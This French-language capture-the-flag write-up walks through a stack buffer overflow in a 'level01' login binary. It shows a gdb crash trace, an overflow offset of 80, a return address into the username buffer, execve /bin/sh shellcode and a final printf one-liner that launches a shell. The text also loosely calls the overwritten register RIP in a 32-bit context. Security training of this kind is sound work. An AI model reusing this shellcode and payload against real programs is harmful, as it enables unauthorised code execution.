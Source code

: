 En utilisant gdb et en donnant en mot de passe jusqu'a 100 'a' on peut voir que le programme essaye d'executer du code a l'address 0x61616161 (qui correspond a un morceau de notre chaine "aaaa").
```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
(gdb) bt
#0  0x61616161 in ?? ()
#1  0x0000000a in ?? ()
#2  0xffffd7b4 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
```
On en deduit que le registre RIP est a un moment charge par une valeur qu'on ecrase par ce qu'on ecrit. On aimerait controller precisement quelle valeur on va mettre dans RIP pour executer le code qu'on veut.

## Calculer l'offset
On peut utiliser un outil pour calculer cet offset: https://wiremask.eu/tools/buffer-overflow-pattern-generator/

Offset: 80

## Le code
Il nous faut un buffer dans lequel mettre le code qu'on veut executer. Le buffer du nom d'utilisateur peut faire l'affaire. Son adresse est 0x0804a040 d'apres objdump -x, on rajoute 7 pour prendre en compte "dat_wil"

`dat_wil + le code`

`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac + \x47\xa0\x04\x08`

Le code en question est sous forme d'instructions directement comprehensible par le CPU. Le site shell-storm repertorie differents code machines qui pourraient nous interesser, pour executer la fonction execve avec comme argument "/bin/bash":
`\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

## Final
`printf "dat_wil\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80\n%80c\x47\xa0\x04\x08\n" A >/tmp/level01.txt`
`cat /tmp/level01.txt - && ./level01`
